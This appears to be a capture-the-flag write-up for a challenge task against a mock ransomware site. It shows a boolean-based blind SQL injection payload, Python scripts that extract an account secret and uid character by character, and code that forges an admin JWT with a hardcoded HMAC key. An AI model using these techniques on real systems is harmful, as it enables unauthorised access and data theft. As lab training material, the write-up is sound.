




# Task 7

## Description

With access to the site, you can access most of the functionality. But there's still that admin area that's locked off.

Generate a new token value which will allow you to access the ransomware site as an administrator.

## Solution

After gaining access too the administrator pages and exploring the source code for them, a SQL injection vulnerability is revealed in the `/userinfo` page. The output of the SQL query all casted to integers before being displayed on the page, meaning only integers such as the `uid` can be leaked directly.



This is the only query in the entire website that does not use prepared statements. The injection can be triggered with `'<payload>;-- -`. The paylod below is a boolean basedblind sql injection used to brute force the hex encoded version of the secret.

`HealthyRespect' and (SELECT substr(hex(secret),1,1) FROM Accounts WHERE userName='HealthyRespect') = '4';-- -`

I scripted this attack with python to automatically extract the secret.

```python
import jwt
import sys
import requests
from datetime import datetime, timedelta

dictionary = ['0','1','2','3','4','5','6','7','8','9','A','B','C','D','E','F','fail']
secret = []

def gen_token():
    hmac = "hionYjaULMZE4sZnrWj4nzkEjmDUAdsb"
    now = datetime.now()
    exp = now + timedelta(days=30)

    claims = {
        'iat': int(now.timestamp()),
        'exp': int(exp.timestamp()),
        'uid': 26567,
        'sec': 'WReAsZnC8atEELdAPpcIs0yHCLzqPi1a'
    }

    return jwt.encode(claims, hmac, algorithm='HS256')

print('Found: ', end='')
sys.stdout.flush()
for i in range(1,65):
    for char in dictionary:

        if char == 'fail':
            print('Failed')
            exit()

        injection = f"HealthyRespect' and (SELECT substr(hex(secret),{i},1) FROM Accounts WHERE userName='HealthyRespect') = '{char}';-- -"

        cookie = {'tok':gen_token()}
        data = {'user':injection}

        r = requests.post('https://jbjlxkyofmpcxooy.ransommethis.net/qschfbjhzihmssyy/userinfo', cookies=cookie, data=data)

        if "User Info ()" not in r.text:
            print(f"{char}", end='')
            sys.stdout.flush()
            secret.append(char)
            break

print(f"\nSecret: {bytes.fromhex(''.join(secret)).decode('utf-8')}")
```



I also used the same method of boolean based blind sql injection to brute force the uid, however since this is an integer value it can also be leaked directly.

```python
import jwt
import sys
import requests
from datetime import datetime,timedelta

dictionary = ['0','1','2','3','4','5','6','7','8','9','A','B','C','D','E','F','fail']
secret = []

def gen_token():
    hmac = "hionYjaULMZE4sZnrWj4nzkEjmDUAdsb"
    now = datetime.now()
    exp = now + timedelta(days=30)

    claims = {
        'iat': int(now.timestamp()),
        'exp': int(exp.timestamp()),
        'uid': 26567,
        'sec': 'WReAsZnC8atEELdAPpcIs0yHCLzqPi1a'
    }

    return jwt.encode(claims, hmac, algorithm='HS256')

print('Found: ', end='')
sys.stdout.flush()
for i in range(1,11):
    for char in dictionary:

        if char == 'fail':
            print('Failed')
            exit()

        injection = f"HealthyRespect' and (SELECT substr(hex(uid),{i},1) FROM Accounts WHERE userName='HealthyRespect') = '{char}';-- -"

        cookie = {'tok':gen_token()}
        data = {'user':injection}

        r = requests.post('https://jbjlxkyofmpcxooy.ransommethis.net/qschfbjhzihmssyy/userinfo', cookies=cookie, data=data)

        if "User Info ()" not in r.text:
            print(f"{char}", end='')
            sys.stdout.flush()
            secret.append(char)
            break

print(f"\nUID: {bytes.fromhex(''.join(secret)).decode('utf-8')}")
```



Using the information gathered from the previous injections I was able to forge an admin token allowing access to the admin panel.

```
import jwt
from datetime import datetime, timedelta
import requests

hmac = 'hionYjaULMZE4sZnrWj4nzkEjmDUAdsb'
now = datetime.now()
exp = now + timedelta(days=30)

claims = {
    'iat':int(now.timestamp()),
    'exp':int(exp.timestamp()),
    'uid':'34799',
    'sec':'K7crfGC6Y36pNq2uLlmkRH6Fp7GPY1hG'
}

tok = jwt.encode(claims, hmac, algorithm='HS256')
print(tok)
```


